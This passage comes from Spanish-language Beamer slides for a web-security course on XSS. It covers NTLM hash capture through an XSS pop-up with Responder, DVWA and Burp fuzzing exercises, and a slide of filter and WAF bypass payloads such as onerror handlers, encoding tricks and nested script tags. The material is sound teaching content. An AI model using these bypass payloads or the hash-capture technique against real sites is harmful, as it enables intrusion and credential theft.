\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl120_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl120_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Captura de hashes NTLM vía XSS}
\small
  \begin{itemize}
  \item El código html lanzará un pop-up para autenticarte
    \begin{itemize}
    \item y la herramienta responder capturará el hash NTLM:
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl121_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl121_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Captura de hashes NTLM vía XSS}
\small
  \begin{itemize}
  \item y\dots{}qué herramienta conoces para ``romper'' hashes?
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl122_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  \begin{itemize}
  \item Serías capaz de averiguar la password a través de un ataque NTLM+XSS en una máquina Windows y con un servidor web vulnerable
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl123_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- Bypass de filtros y WAF}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Si filtran \textless{}script\textgreater{} o palabras clave
  \item \textless{}img src=x onerror=alert(1)\textgreater{} $\cdot$ \textless{}svg onload=alert(1)\textgreater{}
  \item \textless{}iframe src=javascript:alert(1)\textgreater{} $\cdot$ \textless{}body onload=\dots{}\textgreater{}
  \item Mayúsculas, espacios y separadores
  \item \textless{}ScRiPt\textgreater{} $\cdot$ \textless{}img/src/onerror=..\textgreater{} $\cdot$ \textless{}img\textbackslash\{\}tsrc=x\textgreater{}
  \item Codificación / ofuscación
  \item HTML entities (\&\#x6a;) $\cdot$ URL/double-encode $\cdot$ Unicode
  \item eval(atob('..')) $\cdot$ String.fromCharCode(..)
  \item Sin comillas ni paréntesis
  \item onerror=alert`1` (template literals)
  \item Filtros que sanitizan una sola vez
  \item \textless{}scr\textless{}script\textgreater{}ipt\textgreater{} $\rightarrow$ al quitar 'script' queda \textless{}script\textgreater{}
  \item WAF: fragmentar, comentarios, params duplicados (ver WAF).
  \item PortSwigger XSS cheat sheet $\cdot$ OWASP Filter Evasion
  \item Filtro bloquea \textless{}script\textgreater{} / 'alert'
  \item \textless{}img src=x onerror=alert(1)\textgreater{}
  \item \textless{}svg onload=alert(1)\textgreater{}
  \item \textless{}ScRiPt\textgreater{} $\cdot$ \textless{}img/src/onerror\textgreater{}
  \item onerror=alert`1` (sin paréntesis)
  \item JavaScript ejecutado igualmente
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Realiza un ataque XSS con protección CSP en la aplicación DVWA}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl125_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Fuzzing con Burp para buscar XSS}
\small
  \begin{itemize}
  \item este ejercicio es muy de ``bug bounty''
    \begin{itemize}
    \item Se puede capturar una petición que es propensa a ser vulnerable a XSS y mandarla al intruder de Burp
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl126_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Fuzzing con Burp para buscar XSS}
\small
  \begin{itemize}
  \item Se añade el carácter \$ donde se quiere fuzzear
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl127_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Fuzzing con Burp para buscar XSS}
\small
  \begin{itemize}
  \item y se selecciona un diccionario con payload tipo XX
  \item XSS
  \end{itemize}
